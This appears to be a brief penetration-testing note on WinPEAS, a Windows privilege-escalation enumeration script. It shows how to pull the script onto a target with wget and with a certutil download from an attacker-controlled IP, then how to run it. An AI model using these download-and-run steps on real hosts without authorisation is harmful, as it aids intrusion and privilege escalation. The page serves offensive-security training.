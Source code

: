 # winpeas.ps1

**WinPEAS is a script that search for possible paths to escalate privileges on Windows hosts.**

## How to use it

Download or copy the script from the repo bellow:

{% embed url="https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASps1/winPEAS.ps1" %}

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/peass-ng/PEASS-ng/refs/heads/master/winPEAS/winPEASps1/winPEAS.ps1

certutil -urlcache -f http://10.10.14.86/winPEAS.ps1 winPEAS.ps1
```
{% endcode %}

```
.\winpeas.ps1
```



